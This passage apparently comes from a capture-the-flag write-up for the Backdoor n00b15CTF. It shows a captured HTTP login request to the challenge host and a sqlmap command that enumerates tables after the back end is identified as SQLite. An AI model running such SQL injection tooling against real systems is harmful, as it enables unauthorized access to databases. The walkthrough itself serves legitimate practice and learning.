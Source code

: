 ```
GET /submit.php?username=sdslabs&password=123 HTTP/1.1
Host: hack.bckdr.in:16013
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://hack.bckdr.in:16013/index.php
Connection: close
Upgrade-Insecure-Requests: 1
```

![sqlmap](/assets/images/backdoor/2020-08-16-n00b15ctf/23.png)

After a few seconds, the back-end DBMS is SQLite which does not contain databases. Our next step is looking for the tables.

```
sqlmap -r r.txt --tables
```

![table](/assets/images/backdoor/2020-08-16-n00b15ctf/24.png)

